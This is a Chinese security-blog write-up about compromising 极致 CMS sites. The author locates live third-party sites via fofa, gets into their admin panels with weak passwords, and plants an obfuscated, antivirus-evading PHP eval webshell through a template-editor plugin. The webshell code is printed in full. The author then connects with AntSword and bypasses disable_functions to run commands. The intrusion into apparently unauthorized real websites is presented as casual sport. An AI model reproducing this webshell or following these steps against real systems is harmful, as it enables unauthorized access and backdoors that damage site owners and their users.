 

# 记某 CMS 漏洞 getshell - 先知社区

记某 CMS 漏洞 getshell

- - -

# 记极致 CMS 漏洞 getshell

> 今天下午比较空闲，就去搜索一些 cms，突然对极致 CMS 感兴趣，而网上已经有一些文章对它进行分析利用，sql 注入，xss，后台修改上传后缀名前台 getshell 等等。  
> 于是就引起了我的兴趣想去测试一下。

## 信息收集

还是因为自己太懒，不想搭建环境，然后就想网上有好多网站啊，随便找一个去看看。hhh 然后去利用`fofa`去搜索。（不能随便乱日）

## 弱密码 yyds

搜索了一些网站，我们直接在 url 后面添加`/admin.php`,就直接跳到后台登录的地方。

[![](assets/1698897532-98127d27addbd87a3a51b5d7fe3518e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000203-4656ee22-8cba-1.png)

看到后台？！嗯~，测试了 sql 无果，想一想万一有弱密码呢？试一试也没有啥。

然后就测试了弱密码，你懂的。

然后成功登录~ 仿佛就看到了`shell`就在我面前了。

[![](assets/1698897532-4aff6d7d1dfeddf9c0d9db0339f5a28f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000210-4a60369a-8cba-1.png)

因为之前有师傅发过前台上传文件 getshell 了，那我这里就不进行测试了。直接寻找另一个方法 getshell。

和平常的框架一样，登录后台之后就需要去测试功能点，然后我们就一个一个的去测试吧~（这里大概过了有 40 分钟 2333~）

唯一我感觉利用点就存在系统设置中的高级设置，我们可以选择上传的后缀名，不过这里是前台的上传啊，后台虽然有上传点但是一直绕过不了。难受死了，心里又不甘心在前台上传 getshell，在岂不是很没有面子（傲娇）

[![](assets/1698897532-e827b0372adb93dfce28f2575265b830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000216-4df7f84c-8cba-1.png)

这里一直后台没有绕过~~~ 2333~

[![](assets/1698897532-13285b62147644c7c560c10f51250add.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000223-520a45fc-8cba-1.png)

## 柳暗花明又一村

想一想，如果要利用后台，那肯定是一些功能的问题，那我们就去认真找一下网站功能，找来找去就发现一个上传点，有点难受了。过了好久，突然想起了后台有一个`扩展管理`啊，应该说肯定可以下载一下插件来更加功能的吧。

[![](assets/1698897532-a8f50581451f9f2196fc329d09b68772.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000231-56b428de-8cba-1.png)

然后就凭着感觉和功能去看看那些插件可以利于。发现了一个在线编辑模板的插件

[![](assets/1698897532-924fb2273e2dc8d9f1e2a2b1286070b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000237-5a8a187e-8cba-1.png)

这里可能是 ctfer 的自觉吧~因为之前打过的 ctf 题基本上是可以利于编辑插件进行修改代码，就可以 getshell。话不多说就开始尝试。先下载了该模块并进行安装。

安装前我们还是看看安装说明。万一错误了怎么办！

[![](assets/1698897532-4513f41e1f185f05f14d66ebd1639366.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000248-610d8460-8cba-1.png)

意思就是我们安装的时候还需要设置密码，并且该目录权限比较高，`777`就让我看到了`shell`的希望

然后就设置密码登录密码。

[![](assets/1698897532-5162f39483148f584e774f27dda118e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000258-66c0f8f6-8cba-1.png)

成功登录之后就看到了这个页面我当时直接嗨了起了（np！！！）

[![](assets/1698897532-fa0760c5ab669bd3fe460261dfe2a5cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000304-6a545b02-8cba-1.png)

进入这个页面，那岂不是可以修改代码了，嘿嘿嘿~ 那不是 shell 唾手可得！

## 写 shell 连蚁剑

测试了该插件的功能，发现只能修改代码还不能写文件，嗯~。那也简单啊，我们先在已存在的 php 页面上写入一句话，然后蚁剑连接，创建文件写 shell，之后在删除之前修改的代码。

这里分享一个`免杀的小马`

```bash
<?php
$a = $GLOBALS;
$str = '_POST';
eval/**nice**/(''. $a[$str]['cf87efe0c36a12aec113cd7982043573']. NULL);
?>
```

这里写入我们的一句话木马

[![](assets/1698897532-b93abb715578ebd5c2d73d17ec738121.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000312-6f194bb6-8cba-1.png)

然后就是蚁剑去连接啦。看到蚁剑存在了一个绿色东西，长叹一口气~（不过如此）

[![](assets/1698897532-5eb404064dedbcda1262e24f60854d34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000317-72416d6e-8cba-1.png)

连接成功居然不能执行？？？

[![](assets/1698897532-37fc11e3b9c71015c284a9342f82be1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000327-783fe60a-8cba-1.png)

心里又难受了一下~~~  
然后去看看到底过滤了那些函数。并且 php 版本是 5.6

[![](assets/1698897532-2eca9fa5c6752af61f4ec07f17566524.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000344-8229f250-8cba-1.png)

[![](assets/1698897532-74c7ab820099667c20b954f4428d20af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000350-85d8ff36-8cba-1.png)

## 绕 disable\_functions(没成功)

然后直接上蚁剑的插件，然后发现是 5.6 并且是 windows 呜呜呜 不会 直接告辞~

[![](assets/1698897532-4d72d4364709d9ea9a68778c119f53ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000357-8a0bdb5a-8cba-1.png)

虽然没有成功执行命令，但也是一个 getshell 的思路。

啊~烦~。但是渗透人怎么能认输~

**俗话说得好，拿不下就换一个**（需要表哥们可以给一些意见学习一下~）

## 进行收集信息

进行重复上面的操作又获得一个网站。并且还是通过弱口令获得~

**弱口令 yyds**

## getshell 执行命令

这里的步骤和前面一样，因为有前面的步骤，而这个 shell 就简单多了。

也成功获得蚁剑连接。

[![](assets/1698897532-7cf12e8c9afde79f0c3e6061131aa4b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000405-8ed76c12-8cba-1.png)

并且还是不能执行命令，但是看到了 linux 系统就想，肯定比 windows 好多了啊。

[![](assets/1698897532-37252a657b78e628511f45104e3a0d4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000410-91b3f928-8cba-1.png)

于是就开始绕 disable\_functions，系统信息是这样的，那直接蚁剑一把梭。

[![](assets/1698897532-d7f89c09bb95532cf5da8a553d101e1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000415-94b2fe12-8cba-1.png)

成功绕过，这不就成功了!!!

[![](assets/1698897532-95ba94204243d1d2f16c63d3cad58d4e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000421-985085d0-8cba-1.png)

爽歪歪~

## 总结

-   极致 CMS 还是存在很多漏洞的。这里小弟只是抛砖引玉而已。
-   而写到这里的时候已经是晚上了，提权的话还是后面文章在说吧。
-   简单的说一下就是该漏洞是主要存在于 cms 后台插件的位置，允许用户修改代码，而这没有过滤就造成了巨大的风险。
